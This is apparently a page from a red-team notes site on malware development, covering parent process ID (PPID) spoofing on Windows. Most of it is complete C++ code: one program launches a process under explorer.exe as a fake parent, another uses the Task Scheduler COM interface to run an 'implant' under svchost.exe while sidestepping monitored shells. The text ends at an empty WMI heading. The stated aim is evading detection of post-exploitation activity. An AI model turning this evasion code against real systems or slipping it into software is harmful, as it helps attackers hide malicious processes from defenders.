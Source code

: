 ```yaml
---
title: PPID Spoofing
category: Maldev-LowPriv Evasaion
order: 2
---
```


Parent Process ID (PPID) Spoofing technique allows to create a process with a parent process ID that differs from the genuine parent process. By doing so, one can avoid detection by security systems designed to identify post-exploitation activities based on parent-child relationship. PPID Spoofing can effectively "hide" a true origin of a process.

There are different techniques to exploit that technique:

# Classic

The classic techniques consists by creating the new process already with the PPID modified. Thanks to `UpdateProcThreadAttribute` function we can modify it to the desired PPID.

First we need to get the PID from a process.

```cpp
DWORD GetPidByName(const char * pName) {
	PROCESSENTRY32 pEntry;
	HANDLE snapshot;

	pEntry.dwSize = sizeof(PROCESSENTRY32);
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(snapshot, &pEntry) == TRUE) {
		while (Process32Next(snapshot, &pEntry) == TRUE) {
			if (_stricmp(pEntry.szExeFile, pName) == 0) {
				return pEntry.th32ProcessID;
			}
		}
	}
	CloseHandle(snapshot);
	return 0;
}
```

![](/rtnotes/images/ppid-spoofing-classic-1.png)

Now we need to initialize and update the process attribute list with the help of `InitializeProcThreadAttributeList` and `UpdateProcThreadAttribute` of the parent process, create a new `STARTUPINFOEX` of the process and set it up to new one.

* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)

```cpp
InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
InitializeProcThreadAttributeList(lpAttributeList, 1, 0, &cbAttributeListSize);

hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, desiredPid);

UpdateProcThreadAttribute(lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);
info.lpAttributeList = lpAttributeList;

CreateProcess(NULL, (LPSTR) "notepad.exe", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &info.StartupInfo, &processInfo);
```

## Code

```cpp
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>
#include <psapi.h>

DWORD GetPidByName(const char * pName) {
	PROCESSENTRY32 pEntry;
	HANDLE snapshot;

	pEntry.dwSize = sizeof(PROCESSENTRY32);
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(snapshot, &pEntry) == TRUE) {
		while (Process32Next(snapshot, &pEntry) == TRUE) {
			if (_stricmp(pEntry.szExeFile, pName) == 0) {
				return pEntry.th32ProcessID;
			}
		}
	}
	CloseHandle(snapshot);
	return 0;
}

int main(void) {

	DWORD desiredPid = 0;
	SIZE_T cbAttributeListSize = 0;
	LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList = NULL;
	HANDLE hParentProcess = NULL;
	
	STARTUPINFOEX info = { sizeof(info) };
    PROCESS_INFORMATION processInfo;

	desiredPid = GetPidByName("explorer.exe");
	if(desiredPid == 0){
		desiredPid = GetCurrentProcessId(); //In case of error
	}

	InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
	lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
	InitializeProcThreadAttributeList(lpAttributeList, 1, 0, &cbAttributeListSize);

	hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, desiredPid);

	UpdateProcThreadAttribute(lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);
	info.lpAttributeList = lpAttributeList;

	CreateProcess(NULL, (LPSTR) "notepad.exe", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &info.StartupInfo, &processInfo);

	printf("Current PID:\t%d \nParent PID:\t%d \nNewProcess PID:\t%d\n", GetCurrentProcessId(), desiredPid, processInfo.dwProcessId);
	getchar();
	return 0;
}
```

Here we can see a process `notepad.exe` created by `rtnotes.exe` has the parent pid of a different process, in that case `explorer.exe`.

![](/rtnotes/images/ppid-spoofing-classic-2.png)

# Windows Scheduler

Creating a windows task with our binary it will use `svchost.exe` as a parent process.

We can use WinAPI to create the task since powershell and cmd are actively monitored.

> **Note**: If you want to run the implant under `svchost.exe` we will need to drop the file to disk.

There are different alternatives such as using `ITaskScheduler` or `ITaskService`. Here we are going to see an example of `ITaskScheduler`.

```cpp
#include <windows.h>
#include <initguid.h>
#include <ole2.h>
#include <mstask.h>
#include <msterr.h>
#include <objidl.h>
#include <wchar.h>
#include <stdio.h>


#pragma comment(lib, "taskschd.lib")
#pragma comment(lib, "Ole32.lib")

void InitCOM() {
    CoInitializeEx(NULL, COINIT_MULTITHREADED);
}

void CleanCOM() {
    CoUninitialize();
}

int main(void) {
	ITaskScheduler *pTaskScheduler;
	ITask *pTask;
	IPersistFile *pPersistFile;
	HRESULT hr;
	LPCWSTR pwszTaskName;
	
	pwszTaskName = L"rtnotes3";

	InitCOM();
	
	hr = CoCreateInstance(CLSID_CTaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskScheduler, (void**)&pTaskScheduler);
	if(FAILED(hr)){
		printf("[-] Error creating ITaskScheduler\n");
		CleanCOM();
		return -1;
	}
	printf("[+] TaskScheduler up\n");

	// Create Task
	printf("[+] Creating the task\n");
	hr = pTaskScheduler->NewWorkItem(pwszTaskName, CLSID_CTask, IID_ITask, (IUnknown**)&pTask);
	pTask->SetComment(L"rtnotes scheduled task");
	pTask->SetApplicationName(L"C:\\Windows\\System32\\notepad.exe");
	pTask->SetWorkingDirectory(L"C:\\Windows\\System32");
	pTask->SetParameters(L"c:\\tools\\rtnotes\\test.txt");
	pTask->SetAccountInformation(L"brave", NULL);
	//pTask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON | TASK_FLAG_HIDDEN);
	pTask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON);

	hr = pTask->QueryInterface(IID_IPersistFile, (void**) &pPersistFile);

	if(FAILED(hr)){
		printf("[-] Error Quering Interface\n");
		CleanCOM();
		return -1;
	}
	
	// Save Task to disk file
	printf("[+] Saving the task to disk\n");
	hr = pPersistFile->Save(NULL,TRUE);
	pPersistFile->Release();

	if(FAILED(hr)){
		printf("[-] Error Saving IPersistFile\n");
		CleanCOM();
		return -1;
	}

	// Execute Task
	printf("[+] Executing the task\n");
	hr = pTask->Run();
	pTask->Release();

	if(FAILED(hr)){
		printf("[-] Error Executing ITask\n");
		CleanCOM();
		return -1;
	}

	// Deleting the task
	printf("[+] Deleting the task\n");
	getchar();	
	pTaskScheduler->Delete(pwszTaskName);
	pTaskScheduler->Release();

	CleanCOM();
	printf("[+] Finished\n");
	return 0;
}
```

![](/rtnotes/images/ppid-spoofing-schtasks.png)

> **Note**: I suffered some error at deleting the `schtask`, try to use a different name in each execution to avoid problems.

# WMI